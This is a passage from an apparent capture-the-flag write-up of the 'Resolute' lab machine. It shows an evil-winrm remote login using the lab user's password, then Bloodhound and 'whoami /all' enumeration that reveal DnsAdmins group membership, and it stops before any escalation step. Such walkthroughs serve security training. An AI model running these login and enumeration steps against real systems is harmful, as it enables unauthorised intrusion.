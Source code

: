 We can then login with the ryan user still using
[evil-winrm](https://github.com/Hackplayers/evil-winrm).

    :::text
    ruby evil-winrm.rb -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169
    C:\Users\ryan\Desktop> type note.txt
    Email to team:

    - due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute

# Root

We enumerate our new permissions. Using
[Bloodhound](https://github.com/BloodHoundAD/BloodHound) we see that we are part
of the `DNSADMINS` group.

![Ryan's groups](/media/2020.05/resolute_2.png)

We can confirm this by using `whoami /all` (I remove the "SUID" and "Attributes"
columns for more clarity).

    :::text
    *Evil-WinRM* PS C:\Users\ryan\Documents> whoami /all

    USER INFORMATION
    ----------------
    User Name     SID
    ============= ==============================================
    megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


    GROUP INFORMATION
    -----------------

    Group Name                                 Type
    ========================================== ================
    Everyone                                   Well-known group
    BUILTIN\Users                              Alias
    BUILTIN\Pre-Windows 2000 Compatible Access Alias
    BUILTIN\Remote Management Users            Alias
    NT AUTHORITY\NETWORK                       Well-known group
    NT AUTHORITY\Authenticated Users           Well-known group
    NT AUTHORITY\This Organization             Well-known group
    MEGABANK\Contractors                       Group
    MEGABANK\DnsAdmins                         Alias
    NT AUTHORITY\NTLM Authentication           Well-known group
    Mandatory Label\Medium Mandatory Level     Label

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                    State
    ============================= ============================== =======
    SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

